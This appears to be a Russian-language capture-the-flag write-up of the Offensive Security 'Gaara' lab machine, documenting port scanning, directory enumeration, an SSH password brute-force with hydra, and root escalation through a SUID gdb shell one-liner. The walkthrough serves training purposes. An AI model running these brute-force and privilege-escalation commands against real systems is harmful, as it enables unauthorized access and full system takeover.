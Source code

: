 # Offensive Security: Gaara

Используем nmap для сканирования машины:
```sh
nmap -sC -sV 10.10.124.86
```
![ScreenShot](screenshots/1.png)
Мы нашли:
- 22 port - SSH (OpenSSH 7.9p1)
- 80 port - HTTP (Apache httpd 2.4.38)

Перейдем на сайт:

![ScreenShot](screenshots/2.png)

Видим только картинку. В исходном ноде старницы ничего интересного не обнаружено. В таком случае просканируем директории:
```sh
gobuster dir -u http://192.168.136.142/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![ScreenShot](screenshots/3.png)

А вот еще интереснее - директории не найдены **:/**
В таком случаем присмотримся более детально к картинке и заметим надпись **gaara**. Учитывая, что у нас есть только SSH, может ли это являться логином? - Вполне. Тогда попробуем узнать пароль при помощи hydra:
```sh
hydra -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.136.142 ssh
```
![ScreenShot](screenshots/4.png)

И да! Пароль мы узнали, пробуем войти:

![ScreenShot](screenshots/5.png)

Мы внутри, забираем первый флаг в директории пользователя gaara:

![ScreenShot](screenshots/6.png)

Посмотрим, что наш пользователя может выполнять от лица sudo:

![ScreenShot](screenshots/7.png)

К сожалению, пользователь не принадлежит к группе sudo. Тут немного отвлечемся - мне стало интересно, неужели на сайте не больше директорий? Оказывается, есть, просто у них специфичные названия:

![ScreenShot](screenshots/8.png)

Возвращаемся к повышению привилегий. Попробуем ввести следующую команду для того, чтобы посмотреть, что мы можем запустить с более высокими правами:
```sh
find / -user root -perm -4000 -exec ls -ldb {} \;
```
![ScreenShot](screenshots/9.png)

Из доступного нас интересует либо gimp, либо gdb. Плюс, проверим, есть ли python:

![ScreenShot](screenshots/10.png)

Взять под контроль root'а через gimp мне не удалось, хотя может я просто делал что-то немного не так, но вот через gdb все прошло успешно:
```sh
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
![ScreenShot](screenshots/11.png)

За основу взято следующее:

![ScreenShot](screenshots/12.png)

Забираем root-флаг:
![ScreenShot](screenshots/13.png)
